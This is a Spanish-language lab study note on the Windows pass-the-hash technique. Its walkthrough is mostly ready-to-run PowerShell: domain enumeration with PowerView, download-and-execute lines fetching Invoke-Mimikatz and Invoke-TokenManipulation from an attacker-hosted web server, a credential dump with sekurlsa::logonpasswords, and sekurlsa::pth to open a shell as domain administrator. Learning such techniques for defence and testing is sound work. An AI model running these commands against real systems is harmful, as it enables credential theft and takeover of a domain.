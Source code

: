 
Es una técnica de robo de credenciales basada en sistemas windows. Este ataque consiste en obtener el hash de la passwd de un usaurio para autenticarse como ese usuario.

El ataque suele empezar teniendo acceso al systema comprometido donde el usuario a almacenado el hash de su passwd. Una vez el hash es obtenido el atacante explota la vulnerabilidad en el protocolo de autenticación de windows.

Este ataque no requiere crackear el hash.

Ejemplo práctico:

```powershell
cd C:\tools
. .\PowerView.ps1
Get-Domain
```

![[Pasted image 20250401085755.png]]

```powershell
Find-LocalAdminAccess
# la respuesta es seclogs.research.SECURITY.local

Enter-PSSession seclogs.research.SECURITY.local
#Entramos en el dominio

#vemos los privs
whoami /all
```

![[Pasted image 20250401090010.png]]

Ejecutamos el web server de hfs y en la primera opción del ejecutable decimos que no.

![[Pasted image 20250401090057.png]]

En el apartado de add files añadimos:

- Invoke-Mimikatz.ps1
- Invoke-TokenManipulation.ps1

```powershell
#La ip es la del recuadro anterior
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')

#enumera todos los tokens posbiles.
Invoke-TokenManipulation -Enumerate
```

![[Pasted image 20250401090428.png]]

```powershell
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')

Invoke-Mimikatz -Command '"privilege::debug" "token:elevate" "sekurlsa::logonpasswords'
```

![[Pasted image 20250401090613.png]]


Ejecutamos un powershell como administrador.

```powershell
cd C:\\
cd .\Tools
powershell -ep bypass
. .\Invoke-Mimikatz-ps1

#Cambiar el hash por el correcto.
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:hash /run:powershell.exe'
```

Esto lo que hace es generar un nuevo powershell pero con otro usuario.

```powershell
Enter-PSSession prod.research.SECURITY.local
hostname
```

![[Pasted image 20250401091328.png]]


